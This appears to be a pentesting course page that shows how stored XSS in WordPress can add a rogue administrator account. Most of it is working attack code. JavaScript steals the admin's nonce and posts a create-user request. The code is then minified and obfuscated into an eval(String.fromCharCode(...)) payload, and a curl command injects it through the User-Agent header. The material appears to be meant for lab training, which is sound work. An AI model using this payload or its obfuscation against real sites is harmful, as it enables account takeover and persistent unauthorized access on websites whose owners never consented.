


# XSS Privilege Escalation

This example will show adding a secondary admin account to a vulnerable WordPress instance via XSS.

## Background

A similar technique was originally described by [Shift8](https://shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/) in 2018.

WordPress (like many applications) uses cookies to store login state information. When logged in as a WordPress administrator, the site stores six cookies in the user's browser:

<figure><figcaption><p>Cookies created by WordPress admin account login</p></figcaption></figure>

The browser has stored six different cookies, but only four are session cookies. Of these four cookies, if the negligible `wordpress_test_cookie` is excluded, all support the `HttpOnly` feature.

Since all the session cookies can be sent only via HTTP, unfortunately, they also cannot be retrieved via JavaScript.

The overall structure of the attack will be to **craft a JavaScript function that adds another WordPress administrative account**, so that once the real administrator executes the injected code, the function will execute behind the scenes. This function will then be inserted into the application in the same way as the example in [Basic XSS](basic-xss.md).

## Admin Nonce

The nonce is a server-generated token that is included in each HTTP request to add randomness and prevent [CSRF](../cross-site-request-forgery.md) attacks.

By including and checking the pseudo-random nonce, WordPress attempts to prevent this kind of attack, since an attacker could not have prior knowledge of the token. Unfortunately this can be circumvented via a stored XSS attack as the stored nature of the attack causes it to be executed in the victim's (in this case the site admin's) browser with access to their session nonce.

The following JavaScript function will gather the admin's nonce:

```javascript
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
```

This function performs a new HTTP request towards the `/wp-admin/user-new.php` URL and saves the nonce value found in the HTTP response based on the regular expression. The regex pattern matches any alphanumeric value contained between the string `/ser" value="` and double quotes.

Now that the nonce has been retrieved dynamically, the main body of the attack must be constructed. The following function will create the new admin user:


```javascript
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```


On line 1, starting with `&user_login=...` is the new backdoored admin account, just after the nonce obtained previously.

These two segments will be combined into a single piece of JavaScript:

```javascript
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

In order to ensure this code works properly with Burp (or another delivery method) it should be minified and encoded.

[JSCompress](https://jscompress.com/) is a service that will take JavaScript code and minify it up to 80%


```javascript
var nonceRegex=/ser" value="([^"]*?)"/g;ajaxRequest.open("GET",requestURL,!1),ajaxRequest.send();var nonceMatch=nonceRegex.exec(ajaxRequest.responseText),nonce=nonceMatch[1],params="action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";ajaxRequest=new XMLHttpRequest,ajaxRequest.open("POST",requestURL,!0),ajaxRequest.setRequestHeader("Content-Type","application/x-www-form-urlencoded"),ajaxRequest.send(params);
```


The JavaScript was not reduced by all that much but it is at least now a one-liner. This result should now be encoded for further obfuscation. The following JavaScript snippet can be inserted to a browser's console and used to encode the payload and output it to the console:


```javascript
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```


The function above  will parse the minified JS string parameter and convert each character into the corresponding UTF-16 integer code using the `charCodeAt` method.

Navigating to `about:blank` in Mozilla will give a blank page where this can be done easily resulting in:


```
118,97,114,32,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59
```


The resulting output will be placed inside a `<script>` tag and wrapped in a `eval(String.fromCharCode(<ENCODED>))` function call which will turn the encoded output back to minified JS:


```html
<script>eval(String.fromCharCode(118,97,114,32,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59))</script>
```


This is the final payload that will be leveraged as stored XSS. The payload will be delivered via a `curl` command:


```shell-session
kali@kali:~$ curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,41,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59))</script>" --proxy 127.0.0.1:8080
```


The script above assumes that `http://offsecwp` has been mapped to the appropriate IP in the `/etc/hosts` file. Additionally the decision to proxy the connection (via the `--proxy` flag) through `127.0.0.1:8080` was made so that BurpSuite (also assumed to be running) can intercept the request for review:

<figure><figcaption><p>curl command above intercepted</p></figcaption></figure>

This request can be passed to the web application. After the next login by the real admin user (and navigation to the access logs) the secondary admin account will be created (Login: `attacker:attackerpass`).
